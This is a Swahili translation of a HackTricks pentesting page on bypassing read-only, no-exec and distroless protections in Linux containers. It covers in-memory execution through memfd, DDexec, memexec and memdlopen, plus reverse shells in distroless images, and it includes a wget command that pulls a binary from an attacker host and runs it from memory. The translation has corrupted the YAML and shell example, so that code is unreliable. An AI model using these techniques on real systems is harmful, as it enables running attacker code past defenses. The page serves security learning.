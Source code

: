 # Kudukua ulinzi wa FS: soma-tu / hakuna-exec / Distroless

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa una nia ya **kazi ya kudukua** na kudukua yasiyodukuliwa - **tunakupa kazi!** (_inahitajika uwezo wa kuandika na kuzungumza kwa ufasaha wa Kipolishi_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video

Katika video zifuatazo unaweza kupata mbinu zilizotajwa kwenye ukurasa huu zilizoelezwa kwa undani zaidi:

* [**DEF CON 31 - Kuchunguza Ubadilishaji wa Kumbukumbu ya Linux kwa Siri na Kuepuka**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Mashambulizi ya siri na DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Soma-tu / hakuna-exec hali

Inazidi kuwa kawaida kupata mashine za linux zilizomountiwa na **ulinzi wa mfumo wa faili wa soma-tu (ro)**, hasa katika vyombo. Hii ni kwa sababu ya kuendesha chombo na mfumo wa faili wa ro ni rahisi kama kuweka **`readOnlyRootFilesystem: kweli`** katika `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: kweli
</strong>    command: ["sh", "-c", "wakati wa kweli; fanya usingizi 1000; fanyika"]
</code></pre>

Hata hivyo, hata kama mfumo wa faili umemountiwa kama ro, **`/dev/shm`** bado itakuwa inaweza kuandikwa, hivyo ni uongo hatuwezi kuandika chochote kwenye diski. Hata hivyo, folda hii itakuwa **imemountiwa na ulinzi wa hakuna-exec**, hivyo ikiwa unapakua binary hapa **hutaweza kuitekeleza**.

{% hint style="warning" %}
Kutoka mtazamo wa timu nyekundu, hii inafanya **kuwa ngumu kupakua na kutekeleza** binaries ambazo hazipo kwenye mfumo tayari (kama backdoors au enumerators kama `kubectl`).
{% endhint %}

## Kudukua Rahisi: Scripts

Tafadhali kumbuka nilitaja binaries, unaweza **kutekeleza skripti yoyote** ikiwa tu mkalimani yupo ndani ya chombo, kama **skripti ya shell** ikiwa `sh` iko au **skripti ya python** ikiwa `python` imefungwa.

Hata hivyo, hii pekee haitoshi kutekeleza backdoor yako ya binary au zana nyingine za binary unazoweza kuhitaji kutekeleza.

## Kudukua Kumbukumbu

Ikiwa unataka kutekeleza binary lakini mfumo wa faili hauruhusu hivyo, njia bora ya kufanya hivyo ni kwa **kutekeleza kutoka kumbukumbu**, kwani **ulinzi hauwafai huko**.

### FD + kizuizi cha wito wa exec

Ikiwa una injini za skripti zenye nguvu ndani ya chombo, kama **Python**, **Perl**, au **Ruby** unaweza kupakua binary kutekeleza kutoka kumbukumbu, kuihifadhi kwenye maelezo ya faili ya kumbukumbu (`wito wa syscall wa create_memfd`), ambayo haitalindwa na ulinzi huo na kisha kuita **wito wa exec syscall** kuonyesha **fd kama faili ya kutekeleza**.

Kwa hili unaweza kutumia mradi [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Unaweza kumpitisha binary na itazalisha skripti katika lugha iliyoelezwa na **binary iliyosongwa na b64 encoded** pamoja na maagizo ya **kudecode na kudecompress** katika **fd** iliyoundwa kwa kuita wito wa `create_memfd` syscall na wito wa **exec** syscall kuitekeleza.

{% hint style="warning" %}
Hii haitafanya kazi katika lugha zingine za skripti kama PHP au Node kwa sababu hawana njia yoyote ya msingi ya kuita **wito wa syscalls wa moja kwa moja** kutoka kwa skripti, hivyo haiwezekani kuita `create_memfd` kuunda **fd ya kumbukumbu** kuhifadhi binary.

Zaidi ya hayo, kuunda **fd ya kawaida** na faili katika `/dev/shm` haitafanya kazi, kwa sababu hautaruhusiwa kuitekeleza kwa sababu ya **ulinzi wa hakuna-exec** utatumika.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ni mbinu inayokuwezesha **kurekebisha kumbukumbu ya mchakato wako mwenyewe** kwa kubadilisha **`/proc/self/mem`** yake.

Hivyo, **kudhibiti kanuni ya mkusanyiko** inayotekelezwa na mchakato, unaweza kuandika **shellcode** na "kubadilisha" mchakato kutekeleza **kanuni yoyote ya kupindukia**.

{% hint style="success" %}
**DDexec / EverythingExec** itakuruhusu kupakia na **kutekeleza** shellcode yako mwenyewe au **binary yoyote** kutoka **kumbukumbu**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) ni hatua ya asili ya DDexec. Ni **DDexec shellcode demonised**, kila wakati unapotaka **kuendesha binary tofauti** hauitaji kuzindua upya DDexec, unaweza tu kuendesha shellcode ya memexec kupitia mbinu ya DDexec na kisha **kuwasiliana na kiumbe hiki ili kupitisha binaries mpya za kupakia na kuendesha**.

Unaweza kupata mfano jinsi ya kutumia **memexec kuendesha binaries kutoka kwa PHP reverse shell** katika [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Kwa lengo kama la DDexec, mbinu ya [**memdlopen**](https://github.com/arget13/memdlopen) inaruhusu njia **rahisi ya kupakia binaries** kwenye kumbukumbu kwa kuziendesha baadaye. Inaweza kuruhusu hata kupakia binaries zenye tegemezi.

## Kupitisha Distroless

### Ni nini distroless

Vyombo vya distroless vinavyo **vipengele vichache sana vinavyohitajika kuendesha programu au huduma maalum**, kama maktaba na tegemezi za wakati wa uendeshaji, lakini vinaweka pembeni vipengele vikubwa kama meneja wa pakiti, shell, au zana za mfumo.

Lengo la vyombo vya distroless ni **kupunguza eneo la mashambulizi ya vyombo kwa kufuta vipengele visivyo vya lazima** na kupunguza idadi ya mapungufu yanayoweza kutumiwa.

### Reverse Shell

Katika chombo cha distroless unaweza **hata usipate `sh` au `bash`** kupata shell ya kawaida. Pia hutapata binaries kama `ls`, `whoami`, `id`... kila kitu unachozoea kuendesha kwenye mfumo.

{% hint style="warning" %}
Kwa hivyo, **hutaweza** kupata **reverse shell** au **kuorodhesha** mfumo kama kawaida.
{% endhint %}

Hata hivyo, ikiwa chombo kilichoharibiwa kinaendesha kwa mfano wavuti ya flask, basi python imewekwa, na kwa hivyo unaweza kupata **Python reverse shell**. Ikiwa inaendesha node, unaweza kupata Node rev shell, na vivyo hivyo na karibu lugha yoyote ya **scripting**.

{% hint style="success" %}
Kwa kutumia lugha ya scripting unaweza **kuorodhesha mfumo** kwa kutumia uwezo wa lugha hiyo.
{% endhint %}

Ikiwa hakuna ulinzi wa **`read-only/no-exec`** unaweza kutumia reverse shell yako kufanya **kuandika kwenye mfumo wa faili binaries yako** na **kuendesha**.

{% hint style="success" %}
Hata hivyo, katika aina hii ya vyombo ulinzi huu kawaida utakuwepo, lakini unaweza kutumia **mbinu za awali za utekelezaji wa kumbukumbu kuzipita**.
{% endhint %}

Unaweza kupata **mifano** jinsi ya **kutumia baadhi ya mapungufu ya RCE** kupata **reverse shells** za lugha za scripting na kutekeleza binaries kutoka kumbukumbu katika [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).
